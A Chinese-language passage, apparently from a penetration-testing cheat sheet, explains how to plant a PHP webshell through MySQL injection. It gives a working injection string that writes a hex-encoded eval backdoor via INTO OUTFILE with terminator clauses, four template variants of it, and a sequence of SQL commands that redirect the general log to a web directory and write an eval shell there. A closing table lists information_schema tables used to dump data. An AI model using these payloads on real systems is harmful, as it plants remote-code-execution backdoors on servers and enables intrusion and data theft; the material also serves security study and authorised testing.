 当`Mysql`注入点为盲注或报错，`Union select`写入的方式显然是利用不了的，那么可以通过分隔符写入。`SQLMAP`的 `--os-shell`命令，所采用的就是一下这种方式。

具体权限要求：`secure_file_priv`支持`web`目录文件导出、数据库用户`File`权限、获取物理路径。

```
?id=1 LIMIT 0,1 INTO OUTFILE 'E:/study/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --
```

同样的技巧，一共有四种形式：

```
?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
```

**3、利用log写入**

新版本的`MySQL`设置了导出文件的路径，很难在获取`Webshell`过程中去修改配置文件，无法通过使用`select into outfile`来写入一句话。这时，我们可以通过修改`MySQL`的`log`文件来获取`Webshell`。

具体权限要求：数据库用户需具备`Super`和`File`服务器权限、获取物理路径。

```
show variables like '%general%';             #查看配置
set global general_log = on;                 #开启general log模式
set global general_log_file = 'E:/study/WWW/evil.php'; #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'             #写入shell
set global general_log=off;                  #关闭general log模式
```



###### 利用information_schema数据库爆数据

| 表名                                  | 说明                                                         |
| ------------------------------------- | ------------------------------------------------------------ |
| SCHEMATA                              | 提供了当前mysql实例中所有数据库的信息。是show databases的结果取之此表 |
| TABLES                                | 提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema、表类型、表引擎、创建时间等信息。是show tables from schemaname的结果取之此表 |
| COLUMNS                               | 提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表 |
| STATISTICS                            | 提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表 |
| USER_PRIVILEGES                       | 用户权限表:给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表 |
| SCHEMA_PRIVILEGES                     | 方案权限表:给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。是非标准表 |
| TABLE_PRIVILEGES                      | 表权限表:给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。是非标准表 |
| COLUMN_PRIVILEGES                     | 列权限表:给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。是非标准表 |
| CHARACTER_SETS                        | 字符集表:提供了mysql实例可用字符集的信息。是SHOW CHARACTER SET结果集取之此表 |
| COLLATIONS                            | 提供了关于各字符集的对照信息                                 |
| COLLATION_CHARACTER_SET_APPLICABILITY | 指明了可用于校对的字符集。这些列等效于SHOW COLLATION的前两个显示字段。 |
| TABLE_CONSTRAINTS                     | 描述了存在约束的表。以及表的约束类型                         |
| KEY_COLUMN_USAGE                      | 描述了具有约束的键列                                         |
| ROUTINES                              | 提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。名为“mysql.proc name”的列指明了对应于INFORMATION_SCHEMA.ROUTINES表的mysql.proc表列 |
| VIEWS                                 | 给出了关于数据库中的视图的信息。需要有show views权限，否则无法查看视图信息 |
| TRIGGERS                              | 提供了关于触发程序的信息。必须有super权限才能查看该表        |
